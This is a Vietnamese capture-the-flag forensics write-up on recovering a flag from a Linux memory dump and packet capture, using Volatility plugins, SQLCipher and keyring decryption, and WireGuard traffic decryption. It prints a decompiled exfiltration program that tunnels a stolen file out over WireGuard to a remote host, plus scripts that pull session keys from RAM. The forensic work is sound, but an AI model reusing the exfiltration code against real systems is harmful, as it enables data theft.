class RecoverFs(plugins.PluginInterface):
    _version = (1, 0, 1)
    _required_framework_version = (2, 21, 0)

    @classmethod
    def get_requirements(cls) -> List[interfaces.configuration.RequirementInterface]:
        return [
            requirements.ModuleRequirement(
                name="kernel",
                description="Linux kernel",
                architectures=architectures.LINUX_ARCHS,
            ),
            requirements.VersionRequirement(
                name="files", component=Files, version=(1, 1, 0)
            ),
            requirements.VersionRequirement(
                name="inodepages", component=InodePages, version=(3, 0, 0)
            ),
            requirements.BooleanRequirement(
                name="tmpfs_only",
                description="Extracts only files from tmpfs file systems",
                default=False,
                optional=True,
            ),
            requirements.ChoiceRequirement(
                name="compression_format",
                description="Compression format (default: gz)",
                choices=["gz", "bz2", "xz"],
                default="gz",
                optional=True,
            ),
        ]

    def _tar_add_reg_inode(
        self,
        context: interfaces.context.ContextInterface,
        layer_name: str,
        tar: tarfile.TarFile,
        reg_inode_in: InodeInternal,
        path_prefix: str = "",
        mtime: float = None,
    ) -> int:
        inode_content_buffer = BytesIO()
        InodePages.write_inode_content_to_stream(
            context, layer_name, reg_inode_in.inode, inode_content_buffer
        )
        inode_content_buffer.seek(0)
        handle_buffer_size = inode_content_buffer.getbuffer().nbytes

        tar_info = tarfile.TarInfo(path_prefix + reg_inode_in.path)

        tar_info.type = tarfile.REGTYPE
        tar_info.size = handle_buffer_size
        tar_info.mode = 0o444
        if mtime is not None:
            tar_info.mtime = mtime
        tar.addfile(tar_info, inode_content_buffer)

        return handle_buffer_size

    def _tar_add_dir(
        self,
        tar: tarfile.TarFile,
        directory_path: str,
        mtime: float = None,
    ) -> None:
        tar_info = tarfile.TarInfo(directory_path)
        tar_info.type = tarfile.DIRTYPE
        tar_info.mode = 0o755
        if mtime is not None:
            tar_info.mtime = mtime
        tar.addfile(tar_info)

    def _tar_add_lnk(
        self,
        tar: tarfile.TarFile,
        symlink_source: str,
        symlink_dest: str,
        symlink_source_prefix: str = "",
        mtime: float = None,
    ) -> None:
        if symlink_dest.startswith("/"):
            relative_dest = PurePath(symlink_dest).relative_to(PurePath("/"))

            symlink_dest = (
                PurePath(
                    *[".."] * len(PurePath(symlink_source.lstrip("/")).parent.parts)
                )
                / relative_dest
            ).as_posix()
        tar_info = tarfile.TarInfo(symlink_source_prefix + symlink_source)
        tar_info.type = tarfile.SYMTYPE
        tar_info.linkname = symlink_dest
        tar_info.mode = 0o444
        if mtime is not None:
            tar_info.mtime = mtime
        tar.addfile(tar_info)

    def _generator(self):
        vmlinux_module_name = self.config["kernel"]
        vmlinux = self.context.modules[vmlinux_module_name]
        vmlinux_layer = self.context.layers[vmlinux.layer_name]
        tar_buffer = BytesIO()
        tar = tarfile.open(
            fileobj=tar_buffer,
            mode=f"w:{self.config['compression_format']}",
        )

        mtime = time.time()

        inodes_iter = Files.get_inodes(
            context=self.context,
            vmlinux_module_name=vmlinux_module_name,
            follow_symlinks=False,
        )

        uuid_as_prefix = vmlinux.get_type("super_block").has_member("s_uuid")
        if not uuid_as_prefix:
            vollog.warning(
                "super_block struct does not support s_uuid attribute. Consequently, level 0 directories won't refer to the superblock uuid's, but to its device_major:device_minor numbers."
            )

        visited_paths = seen_prefixes = set()
        for inode_in in inodes_iter:
            if not (
                inode_in.inode.is_reg or inode_in.inode.is_dir or inode_in.inode.is_link
            ):
                continue

            if not inode_in.path.startswith("/"):
                vollog.debug(
                    f'Skipping processing of potentially smeared "{inode_in.path}" inode name as it does not starts with a "/".'
                )
                continue

            sb_type = inode_in.superblock.get_type()
            if not sb_type:
                vollog.debug(
                    f"Unable to read superblock type for inode at {inode_in.inode.vol.offset}"
                )
                continue

            if self.config["tmpfs_only"] and sb_type != "tmpfs":
                vollog.debug(f"Skipping non-tmpfs filesystem {sb_type}")
                continue

            if uuid_as_prefix:
                prefix = f"/{inode_in.superblock.uuid}"
            else:
                prefix = f"/{inode_in.superblock.major}:{inode_in.superblock.minor}"
            prefixed_path = prefix + inode_in.path

            if prefixed_path in visited_paths:
                vollog.log(
                    constants.LOGLEVEL_VV,
                    f'Already processed prefixed inode path: "{prefixed_path}".',
                )
                continue
            elif prefix not in seen_prefixes:
                self._tar_add_dir(tar, prefix, mtime)
                seen_prefixes.add(prefix)

            visited_paths.add(prefixed_path)
            extracted_file_size = renderers.NotApplicableValue()

            if inode_in.inode.is_reg:
                extracted_file_size = self._tar_add_reg_inode(
                    self.context,
                    vmlinux_layer.name,
                    tar,
                    inode_in,
                    prefix,
                    mtime,
                )
            elif inode_in.inode.is_dir:
                self._tar_add_dir(tar, prefixed_path, mtime)
            elif (
                inode_in.inode.is_link
                and inode_in.inode.has_member("i_link")
                and inode_in.inode.i_link
                and inode_in.inode.i_link.is_readable()
            ):
                symlink_dest = inode_in.inode.i_link.dereference().cast(
                    "string", max_length=255, encoding="utf-8", errors="replace"
                )
                self._tar_add_lnk(tar, inode_in.path, symlink_dest, prefix, mtime)

                inode_in.path = InodeUser.format_symlink(inode_in.path, symlink_dest)
            else:
                continue

            inode_out = inode_in.to_user(vmlinux_layer)
            yield (0, astuple(inode_out) + (extracted_file_size,))

        tar.close()
        tar_buffer.seek(0)
        output_filename = f"recovered_fs.tar.{self.config['compression_format']}"
        with self.open(output_filename) as f:
            f.write(tar_buffer.getvalue())

    def run(self):
        headers = [
            ("SuperblockAddr", format_hints.Hex),
            ("MountPoint", str),
            ("Device", str),
            ("InodeNum", int),
            ("InodeAddr", format_hints.Hex),
            ("FileType", str),
            ("InodePages", int),
            ("CachedPages", int),
            ("FileMode", str),
            ("AccessTime", datetime.datetime),
            ("ModificationTime", datetime.datetime),
            ("ChangeTime", datetime.datetime),
            ("FilePath", str),
            ("InodeSize", int),
            ("Recovered FileSize", int),
        ]

        return renderers.TreeGrid(
            headers, Files.format_fields_with_headers(headers, self._generator())
        )
```

</details>

Rồi chạy command với plugin mới sau khi sửa
```bash
vol3 -p ./custom_plugins -s ~/tools/volatility3/symbols -f memory.elf -o ./dumped_pagecache pagecache_fixed.InodePages --inode 0x8a72cf7f6a98 --dump
```

Cuối cùng thu được file dump là `dumped_pagecache/inode_0x8a72cf7f6a98.dmp`.

## 10. Khôi phục part 1 từ SQLCipher database

Tiếp theo, như trong folder `recovered` thấy có file `recovered/secure_cb/serpent_db`.



File này cũng là file executable



Khi đọc thêm 2 file `Cargo.toml` và `Cargo.lock` trong cùng thư mục,  xác định `serpent_db` là executable được biên dịch từ một project Rust cụ thể source chính là `src/main.rs` qua đó khi phân tích main.rs đã hiểu được các chức năng chính của chương trình: lấy boot ID để tạo application key bằng Argon2id, dùng khóa này mở SQLCipher database tại `/tmp/serpent.db`, đồng thời mã hóa và lưu các secret trong Linux kernel keyring bằng ChaCha20-Poly1305.





Mà như biết file inode_0x8a72cf7f6a98 vừa dump chính là nội dung của `/tmp/serpent.db`. Database này được mã hóa bằng SQLCipher nên chưa thể đọc trực tiếp bằng `sqlite3`. Vì vậy,  sử dụng executable `serpent_db` trong `recovered/secure_cb` để tái tạo khóa ứng dụng và mở database.
Tuy nhiên, do executable sử dụng đường dẫn database cố định
`/tmp/serpent.db`, cần tạo một symbolic link từ đường dẫn này tới file
`inode_0x8a72cf7f6a98.dmp` vừa dump. Đồng thời, executable mặc định đọc boot
ID của phiên WSL hiện tại thay vì boot ID của máy nguồn, nên cần  patch một
bản sao của executable để thay đường dẫn
`/proc/sys/kernel/random/boot_id` bằng một file tạm chứa boot ID đã khôi phục.
```bash
cp recovered/secure_cb/serpent_db dumped_pagecache/serpent_db_patched
```

```bash
cp dumped_pagecache/inode_0x8a72cf7f6a98.dmp dumped_pagecache/serpent.db
```

```bash
echo '710d1eb0-9a77-4c9c-a148-a8dd002d8755' > dumped_pagecache/new_boot
```

```bash
ln -sfn dumped_pagecache dp
```

```bash
sed -i \
  -e 's#/tmp/serpent.db#./dp/serpent.db#' \
  -e 's#/proc/sys/kernel/random/boot_id#./dumped_pagecache/././new_boot#' \
  dumped_pagecache/serpent_db_patched
```

Sau khi sửa hai đường dẫn trong bản sao executable, chạy lệnh `list` để kiểm tra database.
```bash
./dumped_pagecache/serpent_db_patched list
```

Kết quả cho thấy database chỉ chứa một record có tên `part_1`. đọc bản record đó



```bash
./dumped_pagecache/serpent_db_patched read part_1
```



Thu được part1 của flag là:

```text
HTB{v0l4t1l3_1uk52_d3crypt10n_
```

## 11. Khôi phục part 2 từ Linux kernel keyring

Giờ tiếp tục tìm các part còn lại của flag. Trước đó, plugin `KeyScan` đã phát hiện object có description `keyring:part_2@serpent`. Vì vậy, bổ sung plugin `KeyDump` vào file `~/tools/volatility3/custom_plugins/keyextract.py` để đọc nguyên payload của key dựa trên description.
<details>
<summary><strong>Bấm để xem plugin KeyDump</strong></summary>

```bash
cat >> ~/tools/volatility3/custom_plugins/keyextract.py <<'PY'

class KeyDump(interfaces.plugins.PluginInterface):
    _required_framework_version = (2, 0, 0)

    @classmethod
    def get_requirements(cls):
        return kernel_requirement() + [
            requirements.StringRequirement(
                name="description",
                description="Exact key description",
            )
        ]

    def _generator(self):
        target = self.config["description"]

        for layer, _, _, key_len, description, payload in iter_keys(self):
            if description != target or not payload:
                continue

            length = int.from_bytes(
                layer.read(payload + 16, 2),
                "little",
            )

            if length != key_len:
                continue

            data = layer.read(payload + 24, length)

            yield 0, (
                length,
                data.hex(),
                data.decode(errors="replace"),
            )
            return

    def run(self):
        return renderers.TreeGrid(
            [
                ("Length", int),
                ("DataHex", str),
                ("Printable", str),
            ],
            self._generator(),
        )
PY
```

</details>

Rồi chạy command
```bash
vol3 -p ~/tools/volatility3/custom_plugins \
  -s ~/tools/volatility3/symbols \
  -f memory.elf \
  keyextract.KeyDump \
  --description 'keyring:part_2@serpent'
```



Kết quả thu được là chuỗi:

```text
vFq7uwx/2Zet+LsG3dpjbe1cJdfbykcWbitZs22pUysEUQREdJTNkc6jDDnYOHEHhSDFQw==
```

Như đã phân tích trong `main.rs`, payload keyring được mã hóa bằng chính
application key 32 byte:

```rust
let cipher = ChaCha20Poly1305::new((&*key.0).into());
```

```rust
let mut nonce_bytes = [0u8; 12];
```

```rust
let mut ciphertext = cipher.encrypt(nonce, value.as_bytes())?;
```

Sau đó chương trình ghép nonce trước ciphertext và encode Base64:
```rust
combined.extend_from_slice(&nonce_bytes);
```

```rust
combined.extend_from_slice(&ciphertext);
```

```rust
let encoded = general_purpose::STANDARD.encode(&combined);
```

Nhánh đọc xác nhận 12 byte đầu là nonce, còn phần sau là `ciphertext || authentication tag`:
```rust
let nonce_bytes = &combined[..12];
```

```rust
let ciphertext = &combined[12..];
```

```rust
cipher.decrypt(nonce, ciphertext)?;
```

Vì vậy, để giải chuỗi đang bị encrypt kia, cần decode Base64, tách 12 byte đầu làm nonce và giải phần còn lại bằng application key đã khôi phục trước đó
```python
import base64
from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305

key = bytes.fromhex(
    "4af1975878abc3db67aa68d510f848d2"
    "77f2854fb5cf9ac92906c23a769e46e4"
)

payload = base64.b64decode(
    "vFq7uwx/2Zet+LsG3dpjbe1cJdfbykcWbitZs22pUysEUQREdJTNkc6jDDnYOHEHhSDFQw=="
)

plaintext = ChaCha20Poly1305(key).decrypt(
    payload[:12],
    payload[12:],
    None,
)

print("", plaintext.decode())
```



Kết quả thu được part2 của flag là:

```text
w1th_k3rn3l_k3yr1ng_4nd_
```

## 12. Phân tích chương trình exfil

Tiếp tục tìm các part còn lại, trong folder recovered chỉ còn artefact được phân tích là `recovered/pyz/exfil`



File này nằm trong thư mục `pyz`. Khi dùng lệnh `file`,  xác định `exfil` là một executable ELF 64-bit dành cho kiến trúc x86-64, dynamically linked và đã bị strip symbol.



Từ tên thư mục cha `pyz` có thể suy đoán executable này được đóng gói bằng PyInstaller. Vì vậy,  sử dụng `pyinstxtractor-ng` để trích xuất archive Python được nhúng trong file:
```bash
pyinstxtractor-ng exfil
```

exfil_extracted, bên trong có file bytecode chính exfil.pyc



Do exfil.pyc chứa logic của chương trình, sử dụng tool web [pylingual](https://pylingual.io/) để decompile bytecode về source Python gần đúng để phân tích

<details>
<summary><strong>Bấm để xem `exfil.py` sau khi decompile</strong></summary>

```python
import ctypes
import hashlib
import os
import socket
import struct
import sys
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
WG_IF_NAME = 'enp12s01'
WG_CLIENT_PRIVATE_KEY = 'GPXmuw+xS8WjAzjPvkECvLGd2iSRwcjFP+OWPbNzsUY='
WG_CLIENT_ADDRESS = '10.0.0.2/24'
WG_SERVER_PUBLIC_KEY = '34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE='
WG_SERVER_ENDPOINT = '192.168.56.1'
WG_SERVER_PORT = 51829
WG_LISTEN_PORT = 51820
HARDCODED_SECRET = b'https://www.youtube.com/watch?v=oHafFDkFgeg'
FILE_PATH = '/root/dummy.pdf'
SEND_DST = ('10.0.0.1', 9999)
libc = ctypes.CDLL('libc.so.6', use_errno=True)
def purge_file_cache(path):
    # ***<module>.purge_file_cache: Failure: Different control flow
    fd = os.open(path, os.O_RDONLY)
    try:
        os.fsync(fd)
        os.sync()
        size = os.fstat(fd) if os.fstat(fd) is not None else os.posix_fadvise(fd, 0, size, os.POSIX_FADV_DONTNEED)
    finally:
        os.close(fd)
def secure_wipe(addr, nbytes):
    # ***<module>.secure_wipe: Failure: Different bytecode
    libc.memset(ctypes.c_void_p(addr), 0, ctypes.c_size_t(nbytes))
def create_wireguard_interface():
    from pyroute2 import NDB, WireGuard
    with NDB() as ndb:
        with ndb.interfaces.create(kind='wireguard', ifname=WG_IF_NAME) as link:
            link.add_ip(WG_CLIENT_ADDRESS)
            link.set(state='up')
    wg = WireGuard()
    peer = {'public_key': WG_SERVER_PUBLIC_KEY, 'endpoint_addr': WG_SERVER_ENDPOINT, 'endpoint_port': WG_SERVER_PORT, 'persistent_keepalive': 25, 'allowed_ips': ['0.0.0.0/0']}
    wg.set(WG_IF_NAME, private_key=WG_CLIENT_PRIVATE_KEY, listen_port=WG_LISTEN_PORT, peer=peer)
def encrypt_and_wipe_plaintext(buf):
    # ***<module>.encrypt_and_wipe_plaintext: Failure: Different bytecode
    key = hashlib.sha256(HARDCODED_SECRET).digest()
    return nonce + ct
def run():
    # ***<module>.run: Failure: Different control flow
    if os.geteuid()!= 0:
        print('must be root', file=sys.stderr)
        sys.exit(1)
    if not os.path.exists(FILE_PATH):
        print(f'not found: {FILE_PATH}', file=sys.stderr)
        sys.exit(1)
    print('[*] reading file into mutable buffer ...')
    with open(FILE_PATH, 'rb') as f:
        buf = bytearray(f.read())
    print('[*] purging page cache ...')
    purge_file_cache(FILE_PATH)
    print('[*] creating wireguard interface ...')
    create_wireguard_interface()
    try:
        print('[*] encrypting & wiping plaintext from memory ...')
        payload = encrypt_and_wipe_plaintext(buf)
        del buf
        libc.malloc_trim(0)
        print('[*] purging page cache again ...')
        purge_file_cache(FILE_PATH)
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(10)
        try:
            sock.connect(SEND_DST)
            sock.sendall(struct.pack('!I', len(payload)))
            sock.sendall(payload)
            print(f'sent {len(payload)} encrypted bytes to {SEND_DST}')
        finally:
            pass
    except:
        pass
if __name__ == '__main__':
    run()
```

</details>

### Phân tích

Trước hết, chương trình chứa đầy đủ cấu hình WireGuard:

```python
WG_CLIENT_PRIVATE_KEY = "GPXmuw+xS8WjAzjPvkECvLGd2iSRwcjFP+OWPbNzsUY="
```

```python
WG_CLIENT_ADDRESS = "10.0.0.2/24"
```

```python
WG_SERVER_PUBLIC_KEY = "34P8Lh/ROgOdv7ciFVw1BCfBlvn2H0TBuDpCd8FZaHE="
```

```python
WG_SERVER_ENDPOINT = "192.168.56.1"
```

```python
WG_SERVER_PORT = 51829
```

```python
SEND_DST = ("10.0.0.1", 9999)
```

Hàm create_wireguard_interface() tạo interface WireGuard, gán địa chỉ10.0.0.2/24, sau đó cấu hình peer tại192.168.56.1:51829. Dữ liệu bên trong tunnel được gửi qua TCP tới10.0.0.1:9999.
File bị lấy đi được hard-code là:
```python
FILE_PATH = "/root/dummy.pdf"
```

Trong hàm run(), chương trình đọc toàn bộ file vào một bytearray, loạibỏ dữ liệu khỏi page cache, tạo WireGuard interface rồi gọi:
```python
payload = encrypt_and_wipe_plaintext(buf)
```

Hàm mã hóa không được PyLingual khôi phục đầy đủ, nhưng vẫn giữ lại đoạntạo khóa:
```python
key = hashlib.sha256(HARDCODED_SECRET).digest()
```

với secret:
```python
HARDCODED_SECRET = b"https://www.youtube.com/watch?v=oHafFDkFgeg"
```

Do module import AESGCM và hàm trả về nonce + ct, có thể xác định fileđược mã hóa bằng AES-GCM với khóa là SHA-256 của secret trên. Payload gửiđi có cấu trúc:

```text
nonce || ciphertext || authentication tag
```

Cuối cùng, chương trình gửi trước độ dài payload dưới dạng số nguyênbig-endian 4 byte, rồi gửi toàn bộ dữ liệu mã hóa:
```python
sock.sendall(struct.pack("!I", len(payload)))
```

```python
sock.sendall(payload)
```
Có thể hình dung flow như sau

```text
/root/dummy.pdf
        |
        | đọc file vào bộ nhớ
        v
plaintext PDF
        |
        | key = SHA256(HARDCODED_SECRET)
        | AES-GCM encrypt
        v
nonce[12] || ciphertext || tag[16]
        |
        | thêm độ dài 4 byte big-endian
        v
length || AES-GCM payload
        |
        | gửi bằng TCP tới 10.0.0.1:9999
        v
Inner TCP/IP traffic
        |
        | được WireGuard mã hóa và đóng gói
        v
Outer UDP traffic
192.168.56.101:51820
        |
        v
192.168.56.1:51829
```
Quá trình khôi phục vì vậy phải thực hiện theo chiều ngược lại:

```text
capture.pcapng
        |
        v
Tìm phiên WireGuard
        |
        v
Khôi phục WireGuard transport key từ memory.elf
        |
        v
Giải các WireGuard Transport Data
        |
        v
Thu được inner IPv4/TCP
        |
        v
Ghép lại TCP stream tới 10.0.0.1:9999
        |
        v
Tách length prefix 4 byte
        |
        v
nonce[12] || AES-GCM ciphertext || tag[16]
        |
        | key = SHA256(HARDCODED_SECRET)
        v
Giải AES-GCM
        |
        v
Khôi phục /root/dummy.pdf
```

## 13. Phân tích phiên WireGuard

Mở file `capture.pcapng` bằng Wireshark. Từ phân tích trước biết WireGuard server sử dụng port `51829`, nên dùng filter:

```text
udp.port==51829
```



Có thể thấy ba gói đầu có vai trò khác với phần còn lại:

- packet 12 là `Handshake Initiation`;
- packet 13 là `Handshake Response`;
- packet 14 là `Keepalive`.

Các packet còn lại chủ yếu là `Transport Data`, tức dữ liệu thực tế được
truyền bên trong tunnel WireGuard. Khi xem thử 3 packet khác biệt kia

### Packet 12 - Handshake Initiation

Client 192.168.56.101:51820 bắt đầu phiên WireGuard tới server 192.168.56.1:51829.

```text
Type   = Handshake Initiation (1)
Sender = 0x44CA6C02
```

Sender là index do client tạo để server tham chiếu trong phản hồi.



### Packet 13 - Handshake Response

Server trả lời client:

```text
Type     = Handshake Response (2)
Sender   = 0xA5DF9258
Receiver = 0x44CA6C02
```

Receiver = 0x44CA6C02 trùng với Sender của packet 12, chứng minh packet 13 là phản hồi cho đúng phiên handshake vừa bắt đầu.

Server đồng thời tạo index mới:

```text
Sender = 0xA5DF9258
```

Index này sẽ được client dùng trong các gói gửi tới server sau handshake.



### Packet 14 - Transport Data / Keepalive

Ngay sau handshake, client gửi packet 14:

```text
Type     = Transport Data (4)
Receiver = 0xA5DF9258
Counter  = 0
```

Receiver = 0xA5DF9258 trùng với Sender của packet 13, nên packet này thuộc đúng phiên vừa thiết lập và đi theo chiều client → server.

Wireshark còn nhận diện:

```text
This is a Keepalive message
```



Counter = 0 cho thấy packet 14 là transport packet đầu tiên theo chiều client → server. Wireshark nhận diện đây là Keepalive; phần Encrypted Packet chỉ dài 16 byte, nên plaintext có độ dài 0 và 16 byte còn lại là authentication tag.

Để chứng minh các tham số dùng khi kiểm tra transport key,  đối chiếu với tài liệu chính thức [WireGuard Protocol.](https://www.wireguard.com/protocol/)
Trong định nghĩa AEAD, WireGuard dùng ChaCha20-Poly1305; nonce gồm 32 bit 0 nối với counter 64-bit little-endian. Vì counter của packet 14 bằng 0, nonce dùng để xác thực packet này là 12 byte 00.

Đồng thời, AEAD_LEN(plain_len) = plain_len + 16. Packet 14 chỉ có 16 byte encrypted data, suy ra plain_len = 0; đây đúng là authenticated empty keepalive.

Về kích thước khóa, HMAC-BLAKE2s trong tài liệu trả về 32 byte. Ở bước Data Keys Derivation, temp2 và temp3 được gán trực tiếp thành sending_key và receiving_key, nên mỗi WireGuard transport key dài 32 byte.

Do đó, con số 32 byte không được suy ra từ WG_CLIENT_PRIVATE_KEY trong exfil.pyc. Hai khóa hard-code trong exfil.pyc là khóa tĩnh để cấu hình peer; khóa cần tìm trong RAM là khóa phiên được sinh sau handshake. Vì đã biết nonce, tag và plaintext rỗng, packet 14 trở thành oracle xác nhận khóa: mỗi cửa sổ 32 byte trong vùng nhớ được thử làm candidate transport key.





Như vậy, packet 14 không được dùng để lấy PDF trực tiếp, nó chỉ dùng để xác định đúng WireGuard transport key trong RAM.

Candidate duy nhất xác thực thành công và trả về b"" được xem là khóa phiên theo chiều client-to-server. Sau đó khóa này mới được dùng để giải các packet Transport Data còn lại, khôi phục inner IPv4/TCP và tiếp tục đến lớp AES-GCM.

```text
candidate transport key (32 byte)
        |
        v
ChaCha20-Poly1305 xác thực packet 14
        |
        +-- InvalidTag       → candidate sai
        |
        +-- trả về b""       → candidate đúng
```


## 14. Khôi phục WireGuard transport key từ RAM

lấy chính xác payload packet 14:
```bash
tshark -r capture.pcapng -Y 'frame.number==14' -T fields -e udp.payload
```



Payload có cấu trúc:

```text
04000000                         Type = 4
5892dfa5                         Receiver = 0xa5df9258
0000000000000000                 Counter = 0
0972afe7ff41a467aba5b60664c56997 Tag 16 byte
```

xác định được receiver index, counter và authentication tag của packet 14. sử dụng các giá trị này để tìm WireGuard transport key còn sót trong `memory.elf`.

Receiver index `0xa5df9258` được tìm trong RAM dưới dạng little-endian `58 92 df a5`. Với mỗi vị trí tìm thấy, script quét vùng lân cận và lấy từng chuỗi 32 byte làm candidate key, sau đó thử xác thực packet 14 bằng ChaCha20-Poly1305.
<details>
<summary><strong>Bấm để xem script quét WireGuard transport key trong RAM</strong></summary>

```python
import mmap
import struct
from cryptography.exceptions import InvalidTag
from cryptography.hazmat.primitives.ciphers.aead import ChaCha20Poly1305

INDEX = struct.pack("<I", 0xA5DF9258)
TAG = bytes.fromhex("0972afe7ff41a467aba5b60664c56997")
NONCE = bytes(12)
RANGE = 2048

with open("memory.elf", "rb") as f:
    mem = mmap.mmap(f.fileno(), 0, access=mmap.ACCESS_READ)
    hit = 0
    seen = set()

    while (hit := mem.find(INDEX, hit)) != -1:
        print(f"Receiver index tại offset {hit}")

        start = max(0, hit - RANGE)
        end = min(len(mem) - 31, hit + RANGE)

        for offset in range(start, end):
            key = mem[offset:offset + 32]

            if key in seen:
                continue
            seen.add(key)

            try:
                if ChaCha20Poly1305(key).decrypt(NONCE, TAG, None) == b"":
                    print(f"Key offset: {offset}")
                    print(f"Transport key: {key.hex()}")
            except InvalidTag:
                pass

        hit += 1

    mem.close()
```

</details>

script này thực hiện:

```text
receiver index 0xa5df9258
        |
        | đổi sang little-endian: 58 92 df a5
        v
Tìm tất cả vị trí xuất hiện trong memory.elf
        |
        v
Quét vùng ±2048 byte quanh mỗi vị trí
        |
        v
Lấy từng cửa sổ 32 byte làm candidate transport key
        |
        v
ChaCha20-Poly1305 decrypt
        |
        | nonce = 12 byte 00 vì counter = 0
        | ciphertext = tag 16 byte của packet 14
        v
        +-- InvalidTag  → sai key
        |
        +-- trả về b""  → đúng transport key
```

### Kết quả



Kết quả cho thấy receiver index `0xa5df9258` xuất hiện tại hai vị trí trong `memory.elf`. Tuy nhiên, khi thử các cửa sổ 32 byte quanh từng vị trí, chỉ một candidate tại offset `159651844` xác thực thành công packet keepalive và trả về plaintext rỗng. Transport key thu được là:

```text
2d3d193f3889d53e9d1788e2fb42589d2b5390a2160c061baa6529e6da1da21c
```

## 15. Giải WireGuard traffic và AES-GCM payload

Sau khi có WireGuard transport key theo chiều client → server, sử dụng `tshark` để trích xuất UDP payload của các Transport Data packet sau keepalive. chỉ lấy chiều `192.168.56.101:51820` tới `192.168.56.1:51829` và lưu frame number cùng payload dạng hex vào `data.bin`.
Chỉ lấy chiều client → server:
```bash
tshark -r capture.pcapng \
  -Y 'frame.number>14 && ip.src==192.168.56.101 && ip.dst==192.168.56.1 && udp.dstport==51829' \
  -T fields -e frame.number -e udp.payload \
  >  data.bin
```

Sau đó sử dụng script
<details>
<summary><strong>Bấm để xem script giải WireGuard traffic và AES-GCM payload</strong></summary>

```python
import hashlib
from cryptography.hazmat.primitives.ciphers.aead import AESGCM, ChaCha20Poly1305

wg_key = bytes.fromhex(
    "2d3d193f3889d53e9d1788e2fb42589"
    "d2b5390a2160c061baa6529e6da1da21c"
)

segments = {}

for line in open("data.bin"):
    _, raw = line.split()
    packet = bytes.fromhex(raw.replace(":", ""))

    ip = ChaCha20Poly1305(wg_key).decrypt(
        b"\x00" * 4 + packet[8:16],
        packet[16:],
        None,
    )

    ip = ip[:int.from_bytes(ip[2:4], "big")]

    ihl = (ip[0] & 0x0F) * 4
    tcp = ip[ihl:]

    if int.from_bytes(tcp[2:4], "big") != 9999:
        continue

    data = tcp[(tcp[12] >> 4) * 4:]

    if data:
        segments[int.from_bytes(tcp[4:8], "big")] = data

stream = b"".join(segments[seq] for seq in sorted(segments))

size = int.from_bytes(stream[:4], "big")
payload = stream[4:4 + size]

aes_key = hashlib.sha256(
    b"https://www.youtube.com/watch?v=oHafFDkFgeg"
).digest()

pdf = AESGCM(aes_key).decrypt(payload[:12], payload[12:], None)

open("recovered.pdf", "wb").write(pdf)
```

</details>

script làm:

```text
data.bin
   |
   | đọc từng dòng:
   | frame_number + udp_payload
   v
Chuyển UDP payload từ hex thành bytes
   |
   v
Tách WireGuard header
   |
   +-- packet[8:16]  = counter
   +-- packet[16:]   = ciphertext || tag
   |
   v
Tạo nonce WireGuard
   |
   | 4 byte 00 || counter 64-bit little-endian
   v
ChaCha20-Poly1305 decrypt
   |
   | dùng WireGuard transport key 32 byte
   v
Inner IPv4 packet || zero padding
   |
   | đọc IPv4 Total Length
   | loại bỏ zero padding phía sau
   v
Inner IPv4 packet
   |
   | tính IHL
   v
Tách TCP segment
   |
   | chỉ giữ destination port = 9999
   | bỏ TCP header
   v
TCP payload
   |
   | lưu theo TCP sequence number
   v
Sắp xếp các segment theo sequence
   |
   v
Ghép lại TCP stream
   |
   +-- 4 byte đầu: payload size, big-endian
   |
   +-- phần tiếp theo:
       nonce[12] || AES-GCM ciphertext || tag[16]
   |
   v
SHA-256(HARDCODED_SECRET)
   |
   v
AES-GCM key 32 byte
   |
   v
AES-GCM decrypt
   |
   v
recovered.pdf
```

Cuối cùng, kết quả là recover được file `recovered.pdf` và lấy được part3 của flag:

```text
w1r3gu4rd_3xf1l_brrr_brrr_brrr!!}
```



## 16. Flag

```text
HTB{v0l4t1l3_1uk52_d3crypt10n_w1th_k3rn3l_k3yr1ng_4nd_w1r3gu4rd_3xf1l_brrr_brrr_brrr!!}
```

## 17. Tổng hợp kiến thức

### Kiến trúc của disk image mã hóa

#### 1. Disk image là gì?

Disk image là một bản sao của một thiết bị lưu trữ hoặc một vùng trên thiết bị lưu trữ. Nội dung của image đại diện cho:

```text
Toàn bộ ổ đĩa
├── Partition table
├── Nhiều partition
└── Vùng chưa phân bổ
```

```text
Một partition riêng lẻ
├── Filesystem
hoặc
└── Encrypted volume
```

```text
Một block device ảo
└── Nội dung do device-mapper tạo ra
```

Về mặt vật lý, disk image chỉ là một dãy byte liên tục:

```text
offset 0
   |
   v
+---------+---------+---------+---------+---------+
| block 0 | block 1 | block 2 | block 3 |   ...   |
+---------+---------+---------+---------+---------+
```

Ý nghĩa của các byte phụ thuộc vào những lớp được đặt bên trong image.

---

#### 2. Hai loại image thường gặp

##### Whole-disk image

Image của toàn bộ ổ đĩa thường chứa partition table ở đầu:

```text
Disk image
├── MBR hoặc GPT
├── Partition 1
├── Partition 2
└── Unallocated space
```

Partition table cho biết vị trí bắt đầu, kích thước và loại của từng partition.

##### Partition hoặc volume image

Image của một partition riêng lẻ có thể bắt đầu trực tiếp bằng:

```text
Filesystem metadata
```

hoặc:

```text
Encryption metadata
```

Loại image này có thể không có MBR hoặc GPT. Việc không tìm thấy partition table không đồng nghĩa image bị hỏng; nó có thể đơn giản là bản sao của một partition hay một logical volume thay vì toàn bộ ổ đĩa.

---

#### 3. Kiến trúc phân lớp của một volume mã hóa

Một encrypted Linux volume thường được tổ chức theo nhiều lớp:

```text
Physical disk hoặc disk image
    |
    v
Partition / raw region
    |
    v
LUKS metadata (tùy chọn)
    |
    v
dm-crypt
    |
    v
Decrypted virtual block device
    |
    v
Filesystem
    |
    v
Directory và file
```

Mỗi lớp có một vai trò riêng:

- **Disk image:** Lưu các block ciphertext
- **LUKS:** Quản lý metadata, keyslot và quá trình mở khóa
- **dm-crypt:** Thực hiện mã hóa/giải mã block thực tế
- **Filesystem:** Tổ chức inode, thư mục và nội dung file

Filesystem không trực tiếp biết dữ liệu phía dưới đang được mã hóa. Nó chỉ làm việc với block device đã được dm-crypt giải mã.

---

#### 4. Device Mapper và dm-crypt

Device Mapper là framework của Linux cho phép tạo các block device ảo từ một hay nhiều block device phía dưới.

Luồng I/O tổng quát:

```text
Application
    |
    v
Filesystem
    |
    v
Virtual block device
/dev/mapper/<name>
    |
    v
Device Mapper target
├── linear
├── snapshot
├── thin provisioning
└── dm-crypt
    |
    v
Physical device hoặc disk image
```

`dm-crypt` là một target của Device Mapper. Nó chặn các thao tác đọc và ghi block:

##### Ghi dữ liệu

```text
plaintext block
    |
    v
dm-crypt encrypt
    |
